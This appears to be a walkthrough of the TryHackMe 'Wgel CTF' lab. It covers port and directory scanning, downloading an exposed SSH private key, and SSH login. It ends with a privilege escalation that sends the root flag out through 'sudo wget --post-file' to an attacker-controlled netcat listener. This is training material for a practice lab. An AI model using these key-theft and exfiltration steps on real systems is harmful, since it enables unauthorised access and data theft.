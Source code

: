 TryHackMe <br>
Wgel CTF
---

Let’s start off with running `nmap` anad `Gobuster` to see which ports are open and where we can explore. <br><br>
Looking at the main page it’s a default Apache server page. <br>
I decided to view the source code and towards the bottom of the page there was a comment for “Jessie”. <br>

 ![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/753a5e57-11cd-48dd-ac2f-dee5435ba128)

Visiting `/sitemap` took me to a whole new webpage.. <br>
Next step was to run `Gobuster` on the sitemap webpage and found a promising /.ssh directory. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/df1e2906-1990-4e74-9ccc-b63d86269545)

Grabbed the `id_rsa` file to my machine with `wget` and will save it for later to try to ssh into the target machine. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/669d1eef-c3f4-4839-a85d-1f6b36b0bb05)

I also used an exploit for OpenSSH 7.2p for username enumeration. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/77e4b62b-7dbe-481f-97b8-d56fb660bd69)

“Jessie” is on the list which confirms the source code finding earlier, maybe the key that I found will work as well.. <br>
After getting in to the target machine with: 
```
ssh -i id_rsa jessie@<target_machine_IP>
```
I poked around in the Documents directory to see what I could find and the first flag was available. <br>

```
jessie@CorpOne:~$ cd Documents
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt
```

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d1af3448-e81b-4c14-a697-7606a9aec968)


For the second flag, by using the command  `sudo -l` <br>
* That command prints the commands allowed and forbidden the user can run on the current host.  <br>

It showed that we can run the `/usr/bin/wget` without a password prompt. <br>
My friend Google then showed me a “wget priv esc” article that explained how someone could send a file via a “POST” request. <br>
Since I needed the root flag sent to the attacker machine I had to set up a netcat listener on it. <br>

```
nc -lvnp 1337
```

After the listener was set up I executed the following command from the target machine: <br>

```
sudo /usr/bin/wget --post-file=/root/root_flag.txt <attacker_machine_IP:port>
```
And on the attacker machine we got a file with the text displayed, success! <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/93b75502-239b-41dd-b1f8-3fffd2bb1111)









